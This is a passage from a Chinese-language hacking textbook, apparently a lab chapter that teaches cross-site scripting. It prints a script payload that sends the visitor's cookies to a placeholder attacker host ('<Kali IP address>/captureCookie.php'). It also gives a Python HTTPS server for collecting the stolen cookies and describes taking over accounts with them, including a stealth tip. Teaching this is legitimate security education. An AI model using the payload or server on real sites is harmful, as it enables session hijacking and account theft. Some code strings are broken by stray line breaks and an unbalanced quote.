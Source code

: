 ```
<script>document.write('<img src="https://<Kali IP address>/captureCookie.php?

			 cookie='+ escape(document.cookie) + '" />);</script>
```

在 `<script>` 标签内，JavaScript 命令 `document.write()` 使用浏览器的文档 API 向 *文档对象模型（DOM）* 写入内容，DOM 是网页的虚拟表示。这里，它写入了一张图片（`<img>`）。然而，这张图片是特殊的。它的源 URL，浏览器应该从该位置获取图片，指向攻击者的服务器，并且它的查询字符串参数（`cookie`）包含用户的 Cookie。所以，当图片加载时，它会将用户的 Cookie 发送到攻击者的服务器。一旦攻击者访问了受害者的 Cookie，他们就可以尝试以用户身份进行身份验证。

最后，Cookie 可能包含 URL 中不允许的字符，因此我们必须在发送 Cookie 时进行转义，将其作为查询字符串参数包含在源 URL 中。当浏览器尝试加载图片时，它将生成一个 `GET` 请求发送到攻击者的服务器，实际上是将用户的 Cookie 直接发送给攻击者。

接收这些 Cookie 的攻击者服务器可能正在运行一个简单的 Python 程序，如下所示，它提取 `GET` 请求中的查询字符串参数：

```
from http.server import BaseHTTPRequestHandler, HTTPServer
from http.cookies import SimpleCookie
from urllib.parse import urlparse
import ssl
class RequestHandler(BaseHTTPRequestHandler):

    def do_GET(self):

        parameters = urlparse(self.path).query

        print(parameters)

if __name__ == '__main__':

    server = HTTPServer(('localhost', 443), RequestHandler)

    print('Starting Server')

    server.socket = ssl.wrap_socket (server.socket, certfile='server.crt', keyfile='server.key

			 ', server_side=True)

    server.serve_forever()
```

注意，它正在使用加密的套接字，因此你需要生成你的 *server.crt* 证书和私钥 *server.key*。有关如何生成的详细信息，请参见第六章。为了更加隐秘，你可以购买一个你拥有的域名的证书。在你提取了 Cookie 后，你可以将其加载到浏览器中并访问用户的账户。实现这一点的一种方法是使用 *Cookie Quick Manager*，一个 Firefox 扩展，允许你编辑、添加和删除浏览器中的 Cookie（图 13-3）。

![image](img/ch13fig03.jpg)
